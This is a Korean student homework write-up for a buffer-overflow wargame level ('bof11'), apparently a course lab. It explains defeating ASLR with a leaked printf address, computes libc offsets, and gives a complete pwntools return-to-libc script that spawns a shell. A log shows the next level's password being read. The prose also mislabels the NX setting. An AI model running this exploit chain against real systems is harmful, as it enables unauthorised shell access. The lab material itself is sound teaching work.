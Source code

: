 # Report. HW9.

## `bof11`

ASLR이 켜져 있다. NX bit는 꺼져있다. 스택에서의 실행이 불가능하다. 일단 RTL을 쓰고 싶은데, ASLR 때문에 정확한 주소값을 알 수가 없다(메모리의 주소값이 매 실행마다 바뀌어서 정확한 것을 찾을 수 없음). 하지만, **어떤 요소 - 여기서는 `glibc`를 기준으로 잡았다 - 를 기준으로 다른 요소들이 위치해 있는 주소값과의 상대적인 거리는 일정함**을 이용할 수 있다고 했었다. 그러니까, ~~`glibc`를 기준으로 필요로 하는 요소들 `"pop rdi ; ret"`, `"/bin/sh"`, `system`의 상대적인 위치를 구한 후,  이걸 `RET` 부분부터 덮어씌우면 될...~~ 어떻게 시작을 해야 할까.

### 각 요소들의 offset

`gdb`로 `bof11`을 디버깅하는 상황에서 필요한 요소들의 주소값을 조사해 보았다(여러번의 실행에 걸쳐서 돌리게 되면 ASLR에 의해 매번 glibc와 기타 요소들의 주소들이 달라지기 때문에 한번의 `bof11` 실행에서 각각의 주소값들을 확인하여야 한다.)

조사한 결과...

    glibc(of one bof11)   @ 0x00007faaa2c65000.
    printf(of one bof11)  @ 0x00007faaa2cba800.
    /bin/sh(of one bof11) @ 0x00007faaa2df1d57.

가 나왔다.

`bof11`을 실행하면 `printf`의 주소를 출력해준다. 그런데... `gef` 속 `search-pattern`을 통해 `printf`를 찾아보니... 

    [+] Searching 'printf' in memory
    [+] In '/home/bof11/bof11'(0x55f5e120e000-0x55f5e120f000), permission=r--
      0x55f5e120e54d - 0x55f5e120e553  →   "printf"
    [+] In '/home/bof11/bof11'(0x55f5e1210000-0x55f5e1211000), permission=r--
      0x55f5e1210004 - 0x55f5e121001b  →   "printf() address : %p\n"
    [+] In '/home/bof11/bof11'(0x55f5e1211000-0x55f5e1212000), permission=r--
      0x55f5e1211004 - 0x55f5e121101b  →   "printf() address : %p\n"
    [+] In '/tmp/2.23/lib/libc.so.6'(0x7f237f81f000-0x7f237f9df000), permission=r-x
      0x7f237f830043 - 0x7f237f830049  →   "printf"
      0x7f237f8304ba - 0x7f237f8304c0  →   "printf"
      0x7f237f8304ca - 0x7f237f8304d9  →   "printf_function"
      0x7f237f830624 - 0x7f237f83062e  →   "printf_chk"
      0x7f237f830dfd - 0x7f237f830e07  →   "printf_chk"
      0x7f237f831239 - 0x7f237f831243  →   "printf_chk"
      0x7f237f83139e - 0x7f237f8313a4  →   "printf"
      0x7f237f8317a4 - 0x7f237f8317af  →   "printf_type"
      0x7f237f83180f - 0x7f237f83181a  →   "printf_size"
      0x7f237f8319a8 - 0x7f237f8319ae  →   "printf"
      0x7f237f831b7b - 0x7f237f831b85  →   "printf_chk"
      0x7f237f831ce2 - 0x7f237f831ce8  →   "printf"
      0x7f237f831e6a - 0x7f237f831e74  →   "printf_chk"
      0x7f237f831f2c - 0x7f237f831f3b  →   "printf_modifier"
      0x7f237f832334 - 0x7f237f83233e  →   "printf_chk"
      0x7f237f8327dc - 0x7f237f8327e2  →   "printf"
      0x7f237f832f34 - 0x7f237f832f3e  →   "printf_chk"
      0x7f237f83313d - 0x7f237f833147  →   "printf_chk"
      0x7f237f833735 - 0x7f237f83373f  →   "printf_chk"
      0x7f237f8339ab - 0x7f237f8339b5  →   "printf_chk"
      0x7f237f833a3c - 0x7f237f833a46  →   "printf_chk"
      0x7f237f833d27 - 0x7f237f833d2d  →   "printf"
      0x7f237f833d65 - 0x7f237f833d75  →   "printf_specifier"
      0x7f237f833e11 - 0x7f237f833e1e  →   "printf_format"
      0x7f237f833eb3 - 0x7f237f833ebd  →   "printf_chk"
      0x7f237f833f48 - 0x7f237f833f52  →   "printf_chk"
      0x7f237f8341c1 - 0x7f237f8341ca  →   "printf_fp"
      0x7f237f834259 - 0x7f237f834263  →   "printf_chk"
      0x7f237f83440f - 0x7f237f83441f  →   "printf_size_info"
      0x7f237f83450d - 0x7f237f834513  →   "printf"
      0x7f237f834607 - 0x7f237f834611  →   "printf_chk"
      0x7f237f83481d - 0x7f237f834827  →   "printf_chk"
      0x7f237f83487e - 0x7f237f834888  →   "printf_chk"
      0x7f237f8348ab - 0x7f237f8348b5  →   "printf_chk"
      0x7f237f834a53 - 0x7f237f834a5d  →   "printf_chk"
      0x7f237f834bef - 0x7f237f834bf5  →   "printf"
      0x7f237f834c6c - 0x7f237f834c72  →   "printf"
      0x7f237f834d56 - 0x7f237f834d5c  →   "printf"
      0x7f237f834ef5 - 0x7f237f834efb  →   "printf"
      0x7f237f8352ea - 0x7f237f8352f4  →   "printf_chk"
      0x7f237f8356bf - 0x7f237f8356c5  →   "printf"
      0x7f237f9abdde - 0x7f237f9abde6  →   "printf.c"
      0x7f237f9aca90 - 0x7f237f9aca98  →   "printf.c"
      0x7f237f9acb24 - 0x7f237f9acb2c  →   "printf.c"
      0x7f237f9ae44b - 0x7f237f9ae457  →   "printf_chk.c"
      0x7f237f9af7c0 - 0x7f237f9af7ce  →   "printf_fphex.c"
      0x7f237f9af7fa - 0x7f237f9af806  →   "printf_fphex"
      0x7f237f9af80f - 0x7f237f9af815  →   "printf"
      0x7f237f9afd6c - 0x7f237f9afd72  →   "printf"
      0x7f237f9b2820 - 0x7f237f9b2831  →   "printf_positional"
      0x7f237f9b2846 - 0x7f237f9b2855  →   "printf_internal"
      0x7f237f9b28bd - 0x7f237f9b28c3  →   "printf"
      0x7f237f9b2b8b - 0x7f237f9b2b95  →   "printf_chk"
    [+] In '/tmp/2.23/lib/ld-linux-x86-64.so.2'(0x7f237fbe9000-0x7f237fc0f000), permission=r-x
      0x7f237fc0b62c - 0x7f237fc0b632  →   "printf"

결과값도 (다른 것들도 나오지만) `printf`만 해도 너무 많이 나온다. 그러니까, `bof11`에서 출력하는 `printf`가 저 중 어떤 것인지 알 수가 없다. 그래서... 이전 `bof9`에서 찾았던 `system`을 참고하여, **`system`을 기준으로 다른 요소들의 상대값을 찾기로 하였다.**

    glibc(of bof9) @ 0x00007ffff7a0d000
    system(of bof9) @ 0x00007ffff7a52390
    
...가 찾은 결과물이었다.

    "pop rdi ; ret" @ 0x0000000000021102.
    
...는 `glibc` 중 `"pop rdi ; ret"` 가젯이 위치해 있는 offset이다(`ROPgadget.py`를 통해 찾을 수 있었는데 이미 offset 값으로 나와 있다).

추가...로, 디버깅을 통해 `RET`와 `buf` 사이의 거리가 **`18`**이란 걸 확인할 수 있었다. 이걸 바탕으로 목요일 수업 시간에 만들었던 payload exploit 파일 뼈대를 다듬었다.


<details><summary>exp_bof11.py.base</summary>
<p>

```python
from pwn import *

p = process('./bof11')

p.recvuntil('printf() address : ')
printf_addr = p.recvuntil('\n')

system_addr = printf_addr # + system offset here
binsh_addr = printf_addr # + binsh offset here
poprdi_ret = printf_addr # + binsh offset here

payload = 'x' * 20
payload += p64(poprdi_ret)
payload += p64(binsh_addr)
payload += p64(system_addr)

p.send(payload)
p.interactive()

```
</p></details>

를,

<details><summary>exp_bof11.py</summary>
<p>

```python
from pwn import *

p = process('./bof11')

p.recvuntil('printf() address : ')
printf_addr = int(p.recvuntil('\n').decode('UTF-8').strip(), 16)

glibc_offset = {}
glibc_offset['poprdi'] = 0x0000000000021102
glibc_offset['printf'] = -(0x00007faaa2c65000 - 0x00007faaa2cba800)
glibc_offset['binsh']  = -(0x00007faaa2c65000 - 0x00007faaa2df1d57)
glibc_offset['system'] = -(0x00007ffff7a0d000 - 0x00007ffff7a52390)

glibc_addr = printf_addr - glibc_offset['printf']
system_addr = glibc_addr + glibc_offset['system']
binsh_addr  = glibc_addr + glibc_offset['binsh']
poprdi_ret  = glibc_addr + glibc_offset['poprdi']

print(hex(glibc_addr))
print(hex(printf_addr))
print(hex(poprdi_ret))
print(hex(binsh_addr))
print(hex(system_addr))

payload = ('x' * 18).encode()
payload += p64(poprdi_ret)
payload += p64(binsh_addr)
payload += p64(system_addr)

p.send(payload)
p.interactive()

```
</p></details>

...로 바꾸었다. 뼈대를 기준으로 바뀐 부분은...

- 각 명령어들의 `glibc`로부터의 offset을 계산해서 구할 수도 있었겠지만 그러기엔 귀찮아서 코드 안에서 처리하기로 했다.
- `printf_addr`를 구하긴 하지만 이것을 기준으로 하지 않고 `glibc_addr`를 기준으로 매 실행마다 각 요소들의 주소를 구하는 방향으로 수정하였다.
- 뼈대에선 `printf_addr`에 주소가 들어간 `string`이 들어가지만 여기선 바로 16진수 `int`형 값으로 변환하여 씌우는 방향으로 수정하였다.

그렇게 만든 `exp_bof11.py`를 `python3`로 돌려보았는데 - pwn 모듈이 python2에선 돌아가지 않았다 - 성공적으로 먹혀들었다.

    bof11@9abd2f7e3e2b:~$ python3 exp_bof11.py
    [+] Starting local process './bof11': pid 1305
    0x7f9f9e431000
    0x7f9f9e486800
    0x7f9f9e452102
    0x7f9f9e5bdd57
    0x7f9f9e476390
    [*] Switching to interactive mode
    $
    Hello xxxxxxxxxxxxxxxxxx!E\x9e\x9f\x7f
    $ id
    uid=1012(bof12) gid=1012(bof12) groups=1012(bof12),1011(bof11)
    $ ls
    a.out  bof11.c       bof12.pw     exp_bof11.py.base  libc.so.6
    bof11  bof11.hint  exp_bof11.py  exp_bof11.py.hint  which_system.c
    $ cat bof12.pw
    bbcd6e39
    $ exit
    [*] Got EOF while reading in interactive
    $ exit
    [*] Process './bof11' stopped with exit code -11 (SIGSEGV) (pid 1305)
    [*] Got EOF while sending in interactive
    bof11@9abd2f7e3e2b:~$ su bof12
    Password:
     Congratulations!
     You solved all BOF CTFs.
    Press [Enter] to exit...

`bof12` 계정이 있긴 하였으나 여기가 끝이었다.


# -- END --

